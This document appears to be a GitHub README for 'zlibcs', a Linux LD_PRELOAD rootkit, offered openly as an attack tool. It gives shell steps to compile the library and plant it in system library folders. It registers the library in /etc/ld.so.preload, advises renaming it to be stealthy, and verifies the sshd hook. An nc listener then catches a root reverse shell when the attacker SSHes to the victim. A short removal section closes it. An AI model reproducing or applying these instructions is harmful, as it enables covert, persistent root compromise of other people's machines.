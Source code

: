 
zlibcs


Compile:
```bash
root@attacker:~# gcc zlibcs.c -o zlibcs.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
root@victim:~# cp zlibcs.so /lib/x86_64-linux-gnu/
root@victim:~# cp zlibcs.so /lib/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
root@victim:~# echo "/lib/x86_64-linux-gnu/zlibcs.so" > /etc/ld.so.preload
root@victim:~# echo "/lib/zlibcs.so" > /etc/ld.so.preload
```

I would advise renaming `zlibcs.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
root@victim:~# ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcs.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
root@victim:~# cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcs.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
root@attacker:~# nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
root@attacker:~# nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
root@victim:~# rm /etc/ld.so.preload
root@victim:~# rm /lib/x86_64-linux-gnu/zlibcs.so
```

